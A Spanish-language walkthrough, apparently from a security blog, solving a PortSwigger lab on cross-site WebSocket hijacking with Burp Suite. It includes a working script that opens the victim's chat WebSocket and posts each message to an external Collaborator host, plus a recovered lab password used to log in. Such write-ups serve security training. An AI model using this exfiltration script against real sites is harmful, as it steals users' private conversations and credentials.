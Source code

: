 ```yaml
---
title: "Cross-site WebSocket hijacking"
description: "Laboratorio de Portswigger sobre WebSockets"
date: 2025-02-19 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - WebSockets
tags:
  - WebSockets
  - Cross-site WebSocket hijacking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` este `laboratorio`, debemos `explotar` la funcionalidad de `WebSockets` para realizar un ataque de `Cross-Site WebSocket Hijacking`. Esto nos permitirá `interceptar` el `historial del chat` de la víctima y usar la información obtenida para `comprometer su cuenta`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/WebSockets-Lab-2/image_1.png)

Pulsamos sobre `Live chat` y vemos que hay un `chat` de `IA`. Este tipo de chats suelen ser `LLM's`, un tipo de `modelo de IA` entrenado con grandes volúmenes de texto para procesar y generar lenguaje natural. Estos modelos, como `ChatGPT`, son una subcategoría dentro del `NLP (Natural Language Processing)` y se especializan en tareas como `traducción`, `resumen`, `análisis de texto` y `generación de respuestas`

![](/assets/img/WebSockets-Lab-2/image_2.png)

Si nos `abrimos` el `inspector` de `Chrome` vemos que tenemos una `cookie` asignada

![](/assets/img/WebSockets-Lab-2/image_3.png)

Si accedemos a `Proxy > WebSockets history` podemos ver los `datos enviados` y `recibidos`, en el `primer mensaje` vemos el `handshake`, el `handshake` nos indica que ya estamos listos para poder `enviar mensajes`

![](/assets/img/WebSockets-Lab-2/image_4.png)

El `segundo mensaje` que obtenemos es al `conexión` del `otro usuario`

![](/assets/img/WebSockets-Lab-2/image_5.png)

`Enviamos` un `mensaje`

![](/assets/img/WebSockets-Lab-2/image_6.png)

Si nos vamos a `Burpsuite` podemos `ver` el `mensaje enviado`

![](/assets/img/WebSockets-Lab-2/image_7.png)

Si `inspeccionamos` el `código` vemos que se está usando `wss`, este es un `socket seguro`, el cual funciona sobre `HTTPS` y `cifra` las `comunicaciones` entre `cliente` y `servidor` mediante `TLS/SSL `

![](/assets/img/WebSockets-Lab-2/image_8.png)

Si nosotros `recargamos` la `web` con `F5` podemos ver como se `cargan todos los mensajes nuevamente` y se `restaura` el `chat` al `completo`. Podemos comprobar esto desde `Burpsuite`, `cada vez que recargamos la web se cargan todos los mensajes` y se vuelve a `establecer` la `conexión`

![](/assets/img/WebSockets-Lab-2/image_9.png)

Si `borramos` nuestra `cookie` y `refrescamos` la `página` se nos `asigna` una `nueva cookie` y un `nuevo chat`

![](/assets/img/WebSockets-Lab-2/image_10.png)

![](/assets/img/WebSockets-Lab-2/image_11.png)

Si `sustituimos` la `cookie` por la `anterior`, podemos volver a `recuperar` los `chats`

![](/assets/img/WebSockets-Lab-2/image_12.png)

Una vez validado esto, nos dirigimos a `Burpsuite Collaborator`, `pulsamos` en `Copy to clipboard`, `copiamos` la `dirección url` en el `script` y copiamos el `endpoint` del `chat` también para poder `establecer` una `conexión`. Una vez tenemos el `exploit` listo nos dirigimos al `Exploit server` y lo pegamos

```
<script>
    var ws = new WebSocket('wss://0a3500160349bd8c84a1ab7400a10009.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://efxlbue9fvngrpy1kw48884j3a91xrlg.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Cuando `pulsemos` sobre `Deliver exploit to victim` le `enviaremos` la `url` del `servidor` donde se `aloja` nuestro `exploit` y la víctima hará `click` sobre ella. Cuando eso ocurra, `obtendremos` sus `chats` en nuestro `subdominio` de `Burpsuite Collaborator`, en uno de esos `chats` podemos ver la `contraseña` del usuario `carlos`

![](/assets/img/WebSockets-Lab-2/image_13.png)

Pulsamos sobre `My account` e `iniciamos sesión` con las credenciales `carlos:no5jm5dbv3e89jna369b`

![](/assets/img/WebSockets-Lab-2/image_14.png)

![](/assets/img/WebSockets-Lab-2/image_15.png)
